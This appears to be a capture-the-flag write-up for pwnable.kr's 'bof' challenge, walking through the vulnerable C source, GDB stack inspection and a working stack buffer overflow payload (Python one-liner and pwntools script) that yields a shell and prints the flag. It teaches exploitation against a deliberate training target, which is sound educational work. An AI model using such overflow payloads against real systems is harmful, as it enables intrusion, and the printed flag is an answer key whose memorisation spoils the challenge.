 ```yaml
---
title: Pwnable CTF - bof
tags:
  - pwnable
  - ctf
date: 2024-01-04
---
```


In this challenge, there's no shell. Instead we download some files and use
[netcat] to connect to a remote host running what is presumably the `bof`
binary. We will likely have to employ a [buffer overflow] to capture the flag.

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Let's take a look at `bof`:
```sh
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

Running `bof` locally, we get a prompt and a hint: "overflow me". Entering a random string
results in "Nah...".
```sh
$ nc pwnable.kr 9000
overflow me :
hello
Nah..
```

Let's take a look at the source code provided:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

This program passes `0xdeadbeef` to `func()` as `key`. A buffer is created with
a length of 32. [`gets`] is used to read a string from *stdin* into
`overflowme`. Finally, `key` is compared to `0xcafebabe` and if they are equal,
we are given a shell.

From the man page for `gets()`:

    **gets()** reads a line from *stdin* into the buffer pointed to by *s* until either a terminating newline or **EOF**,
    which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below)."

So now we know that `gets` will happily read more bytes than the buffer will
hold. We need to somehow overwrite `key` with the value `0xcafebabe`.

Let's open the binary in [GDB]:
```sh
gdb ./bof
```

If we disassembly `func`, we can see the compare against `0xcafebabe` at `+40`.
```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7df6880 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7df5ee0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7dcbcd0 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7df6880 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7eb4e40 <__stack_chk_fail>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
```

Let's set a breakpoint there:
```
(gdb) break *func+40
Breakpoint 1 at 0x56555654
```

Let run it. We know the buffer expects 32 bytes, so lets give it some sentinel
values to find them on the stack.
```
(gdb) run
overflow me :
aaaabbbbccccddddeeeeffffgggghhhh

Breakpoint 1, 0x56555654 in func ()
```

We hit out breakpoints. Let examine the stack:
```
(gdb) x/24x $esp
0xffffd290:     0xffffd2ac      0x00000020      0x00000000      0xffffd454
0xffffd2a0:     0x00000000      0x00000000      0x01000000      0x61616161
0xffffd2b0:     0x62626262      0x63636363      0x64646464      0x65656565
0xffffd2c0:     0x66666666      0x67676767      0x68686868      0x62f5e700
0xffffd2d0:     0xffffd310      0xf7fbe66c      0xffffd2f8      0x5655569f
0xffffd2e0:     0xdeadbeef      0x00000000      0xf7faa000      0xf7ea283b
```

We can see our input (`0x61..0x68`) starting at `0xffffd2ac` and ending at
`0xffffd2c8`. So we need to overflow the buffer until it overwrites `0xdeadbeef`
at `0xffffd2e0`. That's 52 bytes past the start of our input, or 13 double words
(chunks of 4 bytes). So we need 52 bytes of filler and the value we want to
overwrite, `0xcafebabe`.

To generate the bytes we need, we can use Python. Note that we need reverse the
order of the bytes in `0xcafebabe` to `0xbebafeca` because x86 is [little
endian]. We need to use `sys.stdout.buffer.write` instead of `print` because we
need the raw bytes output and not have it interpreted as UTF-8.

```sh
$ python -c "import sys; sys.stdout.buffer.write(b'\xbe\xba\xfe\xca'*14)" | hexdump -v
0000000 babe cafe babe cafe babe cafe babe cafe
0000010 babe cafe babe cafe babe cafe babe cafe
0000020 babe cafe babe cafe babe cafe babe cafe
0000030 babe cafe babe cafe
```

Let's try our payload against our target. We need to wrap Python program in sub
shell with `cat` in order to keep stdin open. Nothing will be printed at first,
but if hit return once, we'll be in the shell and can execute `ls` to see what
we have access to and finally `cat flag` to get out flag value.
```sh
$ (python -c "import sys; sys.stdout.buffer.write(b'\xbe\xba\xfe\xca'*14)"; cat) | nc pwnable.kr 9000

ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

In the future, we can use [pwntools] to make our attack easier to write an execute:
```py
from pwn import *

payload = p32(0xcafebabe)*14
conn = remote("pwnable.kr", 9000)
conn.sendline(payload)
conn.interactive()
```

```sh
$ python bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[netcat]: https://en.wikipedia.org/wiki/Netcat
[`gets`]: https://linux.die.net/man/3/gets
[GDB]: https://en.wikipedia.org/wiki/GNU_Debugger
[little endian]: https://en.wikipedia.org/wiki/Endianness
[pwntools]: https://docs.pwntools.com/en/latest/
